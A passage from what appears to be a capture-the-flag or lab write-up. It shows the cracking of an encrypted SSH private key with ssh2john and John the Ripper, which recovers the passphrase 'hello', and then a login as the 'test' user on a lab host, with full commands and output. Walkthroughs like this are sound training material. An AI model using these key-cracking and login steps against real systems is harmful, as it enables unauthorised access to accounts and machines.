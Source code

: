We get two files. A public and a private SSH key pair.

```

$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPf01eRsS9o4Xaaog8Acmsd8ctkNA/qweGlDVYQqfGISzy/z0Sh3a2SlEVAweLnVKz1mdoKS4LrKnKxw0cR/fe7AChdY6wq/kCodLPCPmzMZQv12RUo1awO8gpuFA4RZdSmvDmtS1220cscm0fdSDrFt2sxNfn65dgPutJg+wMgssxrExzWjp9OR6AaAlB/naarcT28/LIsMh8DeHhOd9vs/Rew6LvX0mWyLJchAzqoMPHOrSaKu/b7YbMFUlJVvrivzBy35qwOdKFuX0Fa5Wg9TWDL9B1VDu+rFV/MTMdEkss+hIvS7Nl04ovplRLSE09TVa8dPUGGzMRVTGKxHON test@mini

```

Which apparently belongs to the `test` user.

### Bruteforcing SSH private keys

Unfortunately, the private key is also encrypted. Let's use John The Ripper again with [another tool that converts SSH keys to John The Ripper's hash format](https://github.com/koboi137/john/blob/master/ssh2john.py).

```
$ ./ssh2john.py loot/id_rsa > ssh_john.txt
$ john ssh_john.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 4 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 8
needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hello            (loot/id_rsa)
```

### Logging into the SSH server

Now that we have cracked the password for the private key file, we can log in to the victim's machine.

```

$ ssh test@10.99.159.30 -i loot/id_rsa
The authenticity of host '10.99.159.30 (<no hostip for proxy command>)' can't be established.
ECDSA key fingerprint is SHA256:zyMHWQ6tB6OR+dKyv0X7ZXx6oCbYuH9/YbAxBwd5TCw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.99.159.30' (ECDSA) to the list of known hosts.
Enter passphrase for key 'loot/id_rsa': 
Linux mini 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Dec 18 01:33:12 2018 from 192.168.37.1
test@mini:~$ ls -lAs
total 12
4 -rw------- 1 test test  464 Dec 18 01:33 .bash_history
4 drwx------ 2 test test 4096 Dec  2 14:34 .ssh
```